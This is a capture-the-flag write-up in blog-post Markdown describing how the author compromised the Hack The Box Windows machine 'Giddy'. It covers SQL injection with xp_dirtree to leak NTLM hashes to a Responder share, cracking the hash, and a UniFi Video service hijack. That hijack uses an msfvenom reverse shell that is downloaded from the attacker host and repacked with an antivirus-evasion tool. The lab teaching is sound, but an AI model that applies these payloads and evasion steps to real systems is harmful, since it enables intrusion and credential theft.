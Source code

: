 ```yaml
---
layout: post
title: Hack The Box - Giddy
categories: hack-the-box
tags: [windows, web, sqli, rce, active-directory]
description: My write-up for Giddy from Hack The Box.
image: /hackthebox/giddy/0.png
---
```


<hr>
## Quick Summary
<br> Hey guys today Giddy retired and this is my write-up. Giddy was a nice windows box , This box had a nice sqli vulnerability which we will use to steal ntlm hashes and login , Then the privilege escalation was a Local Privilege Escalation vulnerability in a software called Ubiquiti UniFi Video which also was a cool vulnerability , I had fun doing this box as it was a challenging one. It's a windows box and its ip is 10.10.10.104 , I added it to `/etc/hosts` as `giddy.htb`. Let's jump right in.
![](/images/hackthebox/giddy/0.png)
<hr>
## Nmap
<br> As always we will start with nmap to scan for open ports and services : 
`nmap -sV -sT -sC giddy.htb`
![](/images/hackthebox/giddy/1.png)
<br> nmap tells us that port 80 and 443 are open and running http , port 3389 is also open and it says "Microsoft Terminal Services", Let's check http
<br>
<hr>
## HTTP Enumeration
<br> On http (port 80) there's only this picture :
![](/images/hackthebox/giddy/2.png)
<br> Also the same picture on https (port 443)
![](/images/hackthebox/giddy/3.png)
<br> Let's run gobuster with `directory-list-2.3-medium.txt` and see what we will get
`gobuster -u http://giddy.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -to 250s`
<br> Results :
```
=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)                                                                                       
=====================================================                                                                                       
[+] Mode         : dir                                                                                                                      
[+] Url/Domain   : http://giddy.htb/                                                                                                        
[+] Threads      : 100                                                                                                                      
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                             
[+] Status codes : 200,204,301,302,307,403                                                                                                  
[+] Timeout      : 4m10s                                                                                                                    
=====================================================                                                                                       
2019/02/15 21:36:09 Starting gobuster                                                                                                       
=====================================================
/remote (Status: 302)
/mvc (Status: 301)
```
<br> We got 2 sub directories `/remote` and `/mvc`
<br> Let's take a look at `/remote` :
![](/images/hackthebox/giddy/4.png)
<br> It redirects us to this page titled as `Windows PowerShell Web Access` , we don't have any credentials so we can ignore this for now and check `/mvc`
![](/images/hackthebox/giddy/5.png)
<br> And we get this `ASP.NET` application
<br>
<hr>
## SQLI and getting User
<br> After some regular enumeration we will find that when we click on a product name we get something like this :
![](/images/hackthebox/giddy/6.png)
<br> The url has a parameter called `ProductSubCategoryId` , and if we try a single quote `'` :
![](/images/hackthebox/giddy/7.png)
<br> We get an error saying "Unclosed quotation mark after the character string" so this parameter is sql injectable , let's try something like `1; UPDATE Product SET Name= ''`
![](/images/hackthebox/giddy/8.png)
<br> And we see that it dumped the products, we can run responder and use `xpdirtree` to make it try to connect to us , you can read about `xpdirtree` [here](http://www.patrickkeisler.com/2012/11/how-to-use-xpdirtree-to-list-all-files.html)
<br> To do this let's run responder first `responder -I tun0`
<br> Then let's use `xpdirtree` : `1; EXEC MASTER.sys.xp_dirtree '\\10.10.xx.xx\fakeshare'`
![](/images/hackthebox/giddy/9.png)
<br> What is this doing is simply running a fake smb server with responder that steals ntlm hashes , then by using `xpdirtree` we make the server try to connect to our fake smb server. Let's check responder now :
![](/images/hackthebox/giddy/10.png)
<br> We captured ntlm hash for a user called `Stacy` , Let's crack the hash with john
![](/images/hackthebox/giddy/11.png)
<br> And the password is `xNnWo6272k7x` , let's use the PowerShell Web Access
![](/images/hackthebox/giddy/12.png)
<br> We ge this web interface for powershell :
![](/images/hackthebox/giddy/13.png)
<br> We can get the user flag now :
![](/images/hackthebox/giddy/14.png)
<br> And we owned user !
<hr>
## unifivideo local privilege escalation
<br> If we return to `Documents` again we will find a file called `unifivideo`
![](/images/hackthebox/giddy/15.png)
<br>
> UniFi Video is a powerful and flexible, integrated IP video management
surveillance system designed to work with Ubiquiti’s UniFi Video Camera product
line. UniFi Video has an intuitive, configurable, and feature‑packed user
interface with advanced features such as motion detection, auto‑discovery,
user-level security, storage management, reporting, and mobile device support.
<br>

<br> A quick google search and we will find that an old version of unifivideo had a local privilege escalation vulnerability , check it [here](https://www.exploit-db.com/exploits/43390)
<br> What's happening is , Upon the start of the service "Ubiquiti UniFi Video" it tries to execute a file called `taskkill.exe` in `C:\ProgramData\unifi-video\` but that file doesn't exist by default , if we have write permissions to that directory we can place our payload there as `taskkill.exe` then restart the service. And because the service runs with privileged permissions , it will be excuted as administrator.
<br> Let's first create a payload with msfvenom :
`msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.xx.xx LPORT=1337 -f exe > taskkill.exe`
![](/images/hackthebox/giddy/16.png)
<br> We will set up the handler on metasploit :
`use multi/handler`
<br>
<br>
`set payload windows/meterpreter_reverse_tcp`
<br>
<br>
`set LHOST 10.10.xx.xx`
<br>
<br>
`set LPORT 1337`
<br> Then we will run a simple http server with python to host the payload
`python -m SimpleHTTPServer 80`
<br> After that we will download the file , since we are on powershell we can do this :
`Invoke-WebRequest -o taskkill.exe http://10.10.xx.xx/taskkill.exe`
<br> Then we will stop the service :
`Stop-Service "Ubiquiti UniFi Video"`
![](/images/hackthebox/giddy/17.png)
<br> Start it again :
`Start-Service "Ubiquiti UniFi Video"`
![](/images/hackthebox/giddy/18.png)
<br> Let's check our listener
![](/images/hackthebox/giddy/19.png)
<br> We didn't get a meterpreter session !
<br>
<hr>
## Evading anti-virus and getting root
<br> We didn't get a meterpreter session because there's some kind of anti-virus blocking our payload , so what i'm going to do is to use a framework called `phantom evasion` , you can get it from [github](https://github.com/oddcod3/Phantom-Evasion)
![](/images/hackthebox/giddy/20.png)
<br> We will use [1] windows modules , then [1] shellcode injection , [4] windows shellcode injection heapalloc , after that it will ask for the payload :
![](/images/hackthebox/giddy/21.png)
<br> We will choose Msfvenom 
<br> And for encoding we will choose [4] x86/xor_dynamic + Triple Multibyte-key xor:
![](/images/hackthebox/giddy/22.png)
<br> It will ask for adding multi processes behaviour , stripping and signing the executable , we will say no to all of them , then finally we will have our payload.
<br> We will repeat what we did with the other payload again , and let's check our listener : 
![](/images/hackthebox/giddy/23.png)
<br> We got a meterpreter session and owned root !
<br>
<br>
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br>
<br>
<br> Previous Hack The Box write-up : [Hack The Box - Ypuffy](/hack-the-box/ypuffy/)
<br> Next Hack The Box write-up : [Hack The Box - Zipper](/hack-the-box/zipper/)
<hr>
